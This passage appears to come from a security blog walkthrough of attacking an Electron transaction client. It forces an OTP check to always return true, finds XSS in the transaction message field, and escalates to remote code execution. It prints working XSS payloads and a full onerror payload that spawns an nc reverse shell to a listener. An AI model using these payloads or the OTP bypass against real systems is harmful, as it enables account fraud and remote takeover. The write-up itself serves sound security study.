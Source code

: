
We will change the function so that no matter what happens, it will return true.

{:refdef: style="text-align: center;"}
![](/blog/images/otpBypass2.png)
{: refdef}


Now we can use the code we want to, and we will be able to make transactions as if we are using the validation.

## Client RCE

After a little investigation on Electron Clientside XSS vulnerabilities, we know that the proper way to mitigate this risk is to define the nodeIntegration variable as false in the client code. So, after a  `grep -rin nodeIntegration` we know that this variable is not defined and it´s default value is true.

So, time to look up for our XSS ! 

Transactions have the possibility to add a message, and this functionality have led to various XSS in web applications, so we will try some payloads and see what happens.



First, we send `test><h1>test</h1>` and once we make the traansaction and open the message, we can observe that the HTML is being rendered:

![](/blog/images/htmlinjection.png)

Then, we proceed to test for `test<script>alert(8)</script>` but nothing happens, so maybe they are filtering this tag.

Finally, we use the famous payload `<img src=x onerror(alert(8)>` and the JS is being executed:

![](/blog/images/xsstriggered.png)

So, now that we have triggered some JS, let´s try to pop a shell.

Note: In order to test this case, it is important that we prompt the Electron application without proxying the content with Burp as the shells will attempt to use the same connection settings that the main application, and Burp will drop down every connection which is not HTTP.

First, we set up our listener with `nc -lvp 80` in the same box we are running the application. Then, we will use the following payload in the message of a new transaction 
``` html
<img src=x onerror="var Process = process.binding('process_wrap').Process;var proc = new Process();proc.onexit = function(a,b) {};var env = process.env;var env_ = [];for (var key in env) env_.push(key+'='+env[key]);proc.spawn({file:'/bin/sh',args:['sh','-c','nc -ne /bin/bash 127.0.0.1 80'],cwd:null,windowsVerbatimArguments:false,detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},{type:'ignore'}]});">
```
This will make the client set up a reverse shell that connects to our nc server listening in localhost.

![](/blog/images/clientrce1.png)
